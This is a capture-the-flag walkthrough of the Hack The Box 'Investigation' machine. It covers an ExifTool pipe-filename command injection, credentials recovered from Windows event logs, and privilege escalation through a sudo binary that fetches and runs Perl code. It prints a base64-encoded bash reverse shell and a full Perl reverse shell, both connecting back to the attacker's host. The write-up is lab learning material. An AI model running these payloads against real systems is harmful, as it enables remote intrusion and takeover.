  ![image](https://user-images.githubusercontent.com/87700008/221355489-6f404be9-6582-460a-aa3d-ecc3eaa1392b.png)

https://app.hackthebox.com/machines/Investigation

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------
## Enuemration :

I started with a quick rustscan and observed only two open ports on the network: 22 and 80.

![image](https://user-images.githubusercontent.com/87700008/221355635-38b21308-4d60-427d-b5c4-ec39f8a8f594.png)

Here are the results of the port scan:

```
Port 22: OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
Port 80: Apache httpd 2.4.41
```
In the port scan results, I found a domain as well: http://eforenzics.htb/, which I added to my **/etc/hosts** file. I browsed through the website and found an option to upload images for forensics results.

![image](https://user-images.githubusercontent.com/87700008/221406576-cc1c2a20-e482-493c-ba17-fc0e2918370c.png)
![image](https://user-images.githubusercontent.com/87700008/221406588-b3dc4bfe-c879-4ec7-8eab-9c42c94accf1.png)

Then, I proceeded with the subdomain scanning of the webserver and found only one result: '/assets'.

![image](https://user-images.githubusercontent.com/87700008/221356009-866a66d0-d4ff-4de4-a1b4-e9dd65dca4bd.png)

I then tried to access '/assets', but received a 403 error.

Next, I tried to upload a '.php' file in the hope of getting a shell, but the filters were blocking uploads other than '.jpg' and '.png'.
I tried many filters to bypass them, but none of them worked.

![image](https://user-images.githubusercontent.com/87700008/221406739-726f6087-f029-4b28-9743-1de130451c22.png)

After multiple failures, I uploaded a regular PNG image and it gave me the forensics results of the image.

![image](https://user-images.githubusercontent.com/87700008/221406805-c9dc7b77-bec4-4054-8635-c1008c84b7bb.png)

I observed that the website was using **ExifTool ver 12.37** for image forensics purposes.

![image](https://user-images.githubusercontent.com/87700008/221406990-c08f0376-9fcc-4a3b-ab76-fdbedf912943.png)

Searching for an exploit for this version, I landed on [this page](https://gist.github.com/ert-plus/1414276e4cb5d56dd431c2f0429e4429), which states: "An attacker can pass a filename that ends with a pipe (|) to exiftool and if it exists on the filesystem, execute it as an operating system command."

I tried the same using Burp Suite to test it. First, I started 'tcpdump' and an 'ICMP' server to check if I received any response from the machine or not. I got a response from the host

    sudo tcpdump icmp -i tun0 -v
  
![image](https://user-images.githubusercontent.com/87700008/221408521-4c20505d-9d29-4cd0-96a0-e6e0271fafd1.png)

After the confirmation that the website is responding & exiftool is vulnerable now it's time for the Rev Shell.

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------

## Initial access :

I tried injecting the regular bash payload for reverse shell but didn't receive any shell, there may be some filters running on the website.
I then encoded the payload in base64 format & appended the decode function after it, allowing us to execute the payload as well.

    echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC41NS81MyAwPiYxCg==' | base64 -d | bash|
    
![image](https://user-images.githubusercontent.com/87700008/221409232-b34266c4-4d49-471a-a7af-78675876e693.png)

This time, I received the reverse shell with the user '**www-data**' running and then stabilized the shell.

I found a user folder named '**smorton**' in the home directory, but I did not have access to it.

![image](https://user-images.githubusercontent.com/87700008/221428367-d7865d17-d9d8-4042-9ee1-887142c1f91b.png)

I then tried to check for the vectors of priv esc. However, some of the methods required a user password which I did not have.
I then ran 'linpeas' to check for possible priv esc vectors, I found a cronjob running from '**/usr/bin/crontab**' which is performing some activity in this folder '**/usr/local/investigation/analysed_log**'

![image](https://user-images.githubusercontent.com/87700008/221429059-806cdb8c-5197-4910-8015-11281a387c52.png)

I then began exploring the '**/usr/local/investigation/**' path and discovered a .msg file called '**Windows Event Logs for Analysis.msg**'.
I transferred this file into my machine & checked it's content online as I don't have any email reader in kali machine.

![image](https://user-images.githubusercontent.com/87700008/221429231-eb81053e-d8f8-477c-ae45-a8f9a62f317e.png)

I also downloaded the email attachment onto my machine. After unzipping the attachment I got another file '**security.evtx**' which is a Windows log event file.

![image](https://user-images.githubusercontent.com/87700008/221603664-b818713d-4b2a-4bac-be23-68e844f47e96.png)

I tried to read it's content but it is not in a human-readable format. So, then I used a script from this [GitHub repo](https://github.com/williballenthin/python-evtx/blob/master/scripts/evtx_dump.py) to dump the file in the humand readable format.

![image](https://user-images.githubusercontent.com/87700008/221610703-a611b949-e510-4bef-99b4-e462cbf5ef8e.png)
![image](https://user-images.githubusercontent.com/87700008/221610779-c14d1770-15d7-4999-ba51-4e89f2bc5f4c.png)

When checking the dump file, I found some credentials in that dump file. As the dump file is too big I used the event code '4776' to check for any interesting strings.
    
    Event ID 4776 is a security-related event that is logged when a computer attempts to authenticate a user account using Kerberos authentication. This event is triggered when an authentication attempt fails, and helps identify where the failure occurred.
    
![image](https://user-images.githubusercontent.com/87700008/221618208-c639d9a1-d408-4cac-ad5f-a2d0d39f3997.png)

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------

## User flag:

I tried logging in with the credentials I gathered using the 'Smorton' account and successfully accessed SSH. (pwn3d!🙂)

![image](https://user-images.githubusercontent.com/87700008/221619018-273202a5-d30b-41c6-a2b4-59fd42c2444d.png)

Once logged in, I found the user flag in the 'smorton' home directory.

![image](https://user-images.githubusercontent.com/87700008/221619403-e1478558-7076-4998-93be-fe436cf3a34e.png)

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------

## Priv Esc:

I started with manual enumeration and checked the 'sudo' permissions using the 'sudo -l' command, which returned the following:

![image](https://user-images.githubusercontent.com/87700008/221628022-11bc581a-2f3d-4b4d-b65e-52d1f981e00a.png)

Next, I used the 'string' command to check the 'binary' file, but the information in it was not clear:

![image](https://user-images.githubusercontent.com/87700008/221628425-220d6429-b93b-4292-a638-127a95e58a60.png)


*At this point, I was stuck and ran LinPeas to find other possible vectors, but found none. I searched for hints online and found this [walkthrough](https://systemweakness.com/hackthebox-linux-box-investigation-e64b97ca7876)*

In the blog, I found that the author uploaded the binary file to [online decompile](https://dogbolt.org/) and reviewed the source code.

They extracted the main function of the binary, which can be seen in the following code:

```int32_t main(int32_t argc, char** argv, char** envp)
{
    if (argc != 3)
    {
        puts("Exiting... ");
        exit(0);
        /* no return */
    }
    if (getuid() != 0)
    {
        puts("Exiting... ");
        exit(0);
        /* no return */
    }
    if (strcmp(argv[2], "lDnxUysaQn") != 0)
    {
        puts("Exiting... ");
        exit(0);
        /* no return */
    }
    puts("Running... ");
    FILE* rax_8 = fopen(argv[2], &data_2027);
    int64_t rax_9 = curl_easy_init();
    int32_t var_40 = 0x2712;
    curl_easy_setopt(rax_9, 0x2712, argv[1], 0x2712);
    int32_t var_3c = 0x2711;
    curl_easy_setopt(rax_9, 0x2711, rax_8, 0x2711);
    int32_t var_38 = 0x2d;
    curl_easy_setopt(rax_9, 0x2d, 1, 0x2d);
    if (curl_easy_perform(rax_9) != 0)
    {
        puts("Exiting... ");
        exit(0);
        /* no return */
    }
    int64_t rax_25 = snprintf(nullptr, 0, &data_202a, argv[2]);
    char* rax_28 = malloc((rax_25 + 1));
    snprintf(rax_28, (rax_25 + 1), &data_202a, argv[2]);
    int64_t rax_37 = snprintf(nullptr, 0, "perl ./%s", rax_28);
    char* rax_40 = malloc((rax_37 + 1));
    snprintf(rax_40, (rax_37 + 1), "perl ./%s", rax_28);
    fclose(rax_8);
    curl_easy_cleanup(rax_9);
    setuid(0);
    system(rax_40);
    system("rm -f ./lDnxUysaQn");
    return 0;
}
```

Firstly, it checks whether three input parameters have been sent through (actually two because the first parameter is the program name itself) and exits if not.

Secondly, it checks whether a root user calls it (achievable because we can run it as root without a password) and exits if not.

Thirdly, it checks whether the third parameter is equal to the string lDnxUysaQn, and exits if not.

Fourthly, it opens a file with curl which is specified by the second parameter and reads and runs with perl.

And it can be seen that the machine would send the get request to the specified URL.

![image](https://user-images.githubusercontent.com/87700008/221631208-5a9a09bf-9176-430e-b33e-0f9dda4d9412.png)

I then hosted a perl based revsershell in my kali machine :

``` use Socket;
$i="[My_IP_here]";
$p=53;
socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));
if(connect(S,sockaddr_in($p,inet_aton($i)))){
 open(STDIN,">&S");open(STDOUT,">&S");
 open(STDERR,">&S");exec("/bin/bash -i");
};
```

I then executed the command & got the shell. (pwn3d!🙂)

    sudo /usr/bin/binary 10.10.X.X/shell.pl lDnxUysaQn
    
![image](https://user-images.githubusercontent.com/87700008/221632999-e60d0734-155c-4972-9f57-4ec74c8725b3.png)
